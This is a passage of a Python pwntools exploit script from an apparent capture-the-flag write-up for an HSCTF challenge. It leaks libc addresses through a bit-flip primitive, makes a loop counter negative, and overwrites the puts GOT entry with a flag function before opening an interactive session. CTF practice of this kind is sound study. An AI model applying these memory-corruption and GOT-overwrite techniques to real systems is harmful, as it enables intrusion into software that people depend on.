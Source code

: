 ```python

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  sh = remote('pwn.hsctf.com', 4444)
  REMOTE = True

def send_input(addr, index):
  sh.sendlineafter(': ', '{:x}'.format(addr))
  sh.sendlineafter(': ', '{:x}'.format(index))
  return int(sh.recvuntil('address of the byte').strip().split('\n')[2].split(': ')[-1], 16)

def leak(addr):
  return send_input(addr, 0)^1

puts_got = 0x0804a018 
flag_addr = 0x080486a6

if REMOTE:
  # https://libc.blukat.me/?q=puts%3Aca0%2Csetvbuf%3A360&l=libc6_2.23-0ubuntu11_i386
  puts_offset = 0x05fca0
  environ_offset = 0x001b3dbc
else:
  # https://libc.blukat.me/?q=puts%3Ab40&l=libc6_2.27-3ubuntu1_i386
  puts_offset = 0x067b40
  environ_offset = 0x001d9dd8

# make counter negative
libc_base = leak(puts_got)-puts_offset
print hex(libc_base)
counter_addr = leak(libc_base+environ_offset)-0xd4
print hex(counter_addr)
send_input(counter_addr+3, 7)

# overwrite got to the win function
current_v = leak(puts_got)^1
goal = flag_addr

for i in range(4*8):
  if ((current_v >> i) & 1) != ((goal >> i) & 1):
    send_input(puts_got+(i//8), i%8)

send_input(counter_addr+3, 7)

sh.interactive()
```
